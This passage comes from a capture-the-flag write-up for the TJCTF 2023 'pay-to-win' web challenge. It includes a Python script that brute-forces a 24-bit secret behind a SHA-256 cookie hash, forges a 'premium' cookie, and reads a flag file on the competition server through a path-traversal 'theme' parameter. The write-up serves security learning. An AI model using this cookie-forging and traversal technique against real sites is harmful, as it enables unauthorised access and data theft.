 The randomly generated value, which we are unaware of, is then used to create a hash that ensures the data cannot be easily altered

```python
hash(data + users[payload['username']])
```

During the CTF, I attempted to brute force the known hash we obtained in the response. The solution script can be found below.

```python
from base64 import b64encode
import hashlib,json,random,requests

def hash(data):
        return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()

data = {
    "username": "",
    "user_type": "basic"
}

found_hash = ""
b64data = b64encode(json.dumps(data).encode())

while "73553a6d471a7fea554237c8aafa72327a4b29446d59be71a9ef1c4d5a7d908e" != found_hash:
        found_users = hex(random.getrandbits(24))[2:]
        found_hash = hash(b64data.decode() + found_users)

print("[+] Found!")
print("[+] Craft Payload (premium)")
data = {
    "username": "",
    "user_type": "premium"
}
b64data = b64encode(json.dumps(data).encode())
data_hash = hash(b64data.decode() + found_users)
print("data = "+b64data.decode())
print("hash = "+data_hash)
print("[+] Get the flag!")
cookies={
        "data":b64data.decode(),
        "hash":data_hash
}
resp = requests.get("https://pay-to-win.tjc.tf/?theme=/secret-flag-dir/flag.txt",cookies=cookies)
for i in resp.text.split():
        if "tjctf" in i:
                print(i)
                break
```

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/8_tjctf2023/tjctf_2.png)
